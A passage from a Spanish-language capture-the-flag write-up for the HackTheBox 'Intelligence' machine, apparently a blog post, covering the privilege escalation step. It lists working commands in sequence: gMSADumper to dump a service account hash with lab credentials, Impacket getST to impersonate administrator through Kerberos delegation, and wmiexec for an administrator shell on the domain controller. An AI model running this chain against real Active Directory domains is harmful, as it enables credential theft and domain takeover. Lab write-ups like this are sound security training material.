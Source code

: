 ![BloodHound Delegation](/secciones/posts/imagenes/intelligence/dellegate.png)

## Escalada de Privilegios

Extraemos el hash de la cuenta SVC_INT:
```bash
python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
```

Obtenemos el hash: `a5fd76c71109b0b483abe309fbc92ccb`

Sincronizamos el tiempo:
```bash
sudo timedatectl set-ntp 0
date && sudo ntpdate -s intelligence.htb && date
```

Obtenemos un TGT para administrator:
```bash
impacket-getST -spn www/dc.intelligence.htb -hashes :a5fd76c71109b0b483abe309fbc92ccb -dc-ip 10.10.10.248 -impersonate administrator intelligence.htb/svc_int
```

Accedemos como administrator:
```bash
export KRB5CCNAME=administrator.ccache
impacket-wmiexec -k -no-pass administrator@dc.intelligence.htb
whoami
```

¡Hemos comprometido exitosamente el dominio!
 
 